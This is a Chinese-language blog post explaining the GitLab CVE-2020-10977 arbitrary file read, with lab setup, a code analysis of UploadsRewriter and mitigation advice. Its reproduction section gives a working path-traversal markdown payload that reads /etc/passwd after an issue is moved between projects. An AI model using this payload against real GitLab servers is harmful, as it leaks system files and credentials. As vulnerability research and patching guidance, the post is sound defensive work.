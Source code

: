 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞
toc: true
wrench: 2022-05-18
permalink: /about/GitLab-CVE-2020-10977/
author: Bin4xin
desc: 「Gitlab」
description: GitLab | CVE-2020-10977
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png]({{site.PicturesLinks_Domain}}/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
12.8.1-ee
```

### 零、CVE-2020-10977

### 0x01、CVE-2020-10977 漏洞概述

在Gitlab 8.5-12.9版本中，存在一处任意文件读取漏洞，攻击者可以利用该漏洞，在不需要特权的状态下，读取任意文件，造成严重信息泄露，从而导致进一步被攻击的风险。

### 0x02、影响版本

> GitLab GitLab CE/EE >=8.5 and <=12.9
>
> GitLab GitLab CE >=8.5，<=12.9

### 0x03、环境搭建

- [*点击以查看本地搭建漏洞版本*](https://atsud0.me/2021/03/09/CVE-2020-10977%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#0x01-%E7%8E%AF%E5%A2%83%E5%AE%89%E8%A3%85){:target="_blank"}
- 此处不多赘述

```bash
[root@ingeek bin4xin]# systemctl stop firewalld
# CentOS关闭防火墙
[root@ingeek bin4xin]# systemctl disable firewalld.service
# CentOS取消防火墙自启动
[root@ingeek bin4xin]# systemctl status firewalld
● firewalld.service - firewalld - dynamic firewall daemon
   Loaded: loaded (/usr/lib/systemd/system/firewalld.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2022-05-04 22:11:30 EDT; 4s ago
     Docs: man:firewalld(1)
  Process: 7299 ExecStart=/usr/sbin/firewalld --nofork --nopid $FIREWALLD_ARGS (code=exited, status=0/SUCCESS)
 Main PID: 7299 (code=exited, status=0/SUCCESS)

May 04 22:10:48 ingeek systemd[1]: Stopped firewalld - dynamic firewall daemon.
May 04 22:10:48 ingeek systemd[1]: Starting firewalld - dynamic firewall daemon...
May 04 22:10:48 ingeek systemd[1]: Started firewalld - dynamic firewall daemon.
May 04 22:10:48 ingeek firewalld[7299]: WARNING: AllowZoneDrifting is enabled. This is considered an insecure configuration option. It will be removed in a future release. Please consider disabling it now.
May 04 22:11:29 ingeek systemd[1]: Stopping firewalld - dynamic firewall daemon...
May 04 22:11:30 ingeek systemd[1]: Stopped firewalld - dynamic firewall daemon.
```

或者Docker：Replicating the GitLab CE 12.8.1 Environment

```bash
$ sudo apt install docker.io
$ docker pull gitlab/gitlab-ce:12.8.1-ce.0
$ docker run gitlab/gitlab-ce:12.8.1-ce.0
```

> It will take few mins to run the container to start, in a new terminal we can check the docker process and 
>
> simultaneously get a shell on it.

### 0x04、漏洞复现

- 1.在首页随便创建一个账号，然后登陆；
- 2.登录后创建两个project/仓库，名字随意；
- 3.两个project创建完成后，在test1中创建一个issues。填入payload；

```markdown
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

- 4.提交后，将这个创建好的issues move到前面创建好的另外一个project/仓库中；
  - 4.1 进入issues -> 编辑 -> 移动
- 5.点击passwd附件
- 6.enjoy

![2022-04-29-11.49.15.png]({{site.PicturesLinks_Domain}}/images/2022/04/29/2022-04-29-11.49.15.png)

### 一、CVE-2020-10977 思考

- 为什么移动issues的时候，可以读取到文件呢？

### 1x01、猜测

显而易见，当创建issues的时候，我们提交上去的markdown代码被解析成了html代码，即：

```html
<img src="https://git-lab-domain.com/ysoserial/ysoserial/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd" alt="a">
```

那么问题肯定出现在代码移动时，错误解析到了本地文件上，那么是哪里呢？

带着这样的疑问，去查看了相关的文章和代码；

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}

### 1x02、代码分析

作者提出：

- The UploadsRewriter does not validate the file name, allowing arbitrary files to be copied via directory traversal when moving an issue to a new project.
  The pattern used to look for references is :
- `UploadsRewriter`不验证文件名，允许在将问题移动到新项目时通过目录遍历复制任意文件，寻找引用的模式如下：

```ruby
  MARKDOWN_PATTERN = %r{\!?\[.*?\]\(/uploads/(?<secret>[0-9a-f]{32})/(?<file>.*?)\)}.freeze
```

`%r` 为正则表达，用法可以参考：
- [*相关用法*](https://blog.csdn.net/weixin_30907935/article/details/94885961){:target="_blank"}

并且：

- This is used by the UploadsRewriter when copying an issue to also copy across the files:
- 在当拷贝issue时同时也能够实现能够跨文件复制，就是因为`UploadsRewriter`的使用：

```ruby
#/opt/gitlab/embedded/service/gitlab-rails/lib/gitlab/gfm/uploads_rewriter.rb:

   @text.gsub(@pattern) do |markdown|
          file = find_file(@source_project, $~[:secret], $~[:file])
          break markdown unless file.try(:exists?)

          klass = target_parent.is_a?(Namespace) ? NamespaceFileUploader : FileUploader
          moved = klass.copy_to(file, target_parent)
   ...
   def find_file(project, secret, file)
        uploader = FileUploader.new(project, secret: secret)
        uploader.retrieve_from_store!(file)
        uploader
      end
```

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [CVE-2020-10977 Gitlab任意文件读取导致远程命令执行](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}